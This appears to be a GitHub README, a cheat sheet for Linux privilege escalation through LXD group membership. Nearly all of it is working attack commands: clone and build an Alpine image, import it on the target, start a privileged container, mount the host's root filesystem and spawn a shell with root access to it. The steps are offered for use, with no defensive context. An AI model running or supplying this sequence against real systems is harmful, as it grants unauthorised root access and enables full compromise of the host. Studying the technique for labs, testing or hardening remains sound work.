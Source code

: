 # LXD-Privesc-CheatSheet

-if you can't find the git here it is for reference

git clone https://github.com/saghul/lxd-alpine-builder.git
                                                                                                                                                                                                                                           
-first you wanna build the LXD image locally                                                                                                                                                                                                    
                                                                                                                                                                                                                                           
sudo ./build-alpine -a i686                                                                                                                                                                                                                
                                                                                                                                                                                                                                           
-After that is done it will make a gunzip and send that over to the target                                                                                                                                                                 
-Next we will run a slew of commands since we are already in the LXD group                                                                                                                                                                 
-If not you will need to add it to usermod                                                                                                                                                                                                 
-Now we run a slew of commands                                                                                                                                                                                                             
-This makes the LXD image on the target host                                                                                                                                                                                               
                                                                                                                                                                                                                                           
lxc image import alpine-v3.12-i868-20200831_1748.tar.gz --alias temper                                                                                                                                                                     
                                                                                                                                                                                                                                           
-Next we setup the LXD image on local with escalated priv 
-"temper" is the alias of the image
-"hereiam" is the alias of the escalated container
                                                                                                                                                                                                                                           
lxc init temper hereiam -c security.privileged=true                                                                                                                                                                                        
                                                                                                                                                                                                                                           
-Now you need to add a HD for example sometimes it will be in /mnt/root other times no                                                                                                                                                     
                                                                                                                                                                                                                                           
lxc config device add hereiam host-root disk source=/ path=/mnt/root recursive=true                                                                                                                                                        
                                                                                                                                                                                                                                           
-Lastly we start the LXD                                                                                                                                                                                                                   
                                                                                                                                                                                                                                           
lxc start hereiam                                                                                                                                                                                                                          
lxc exec hereiam /bin/sh    
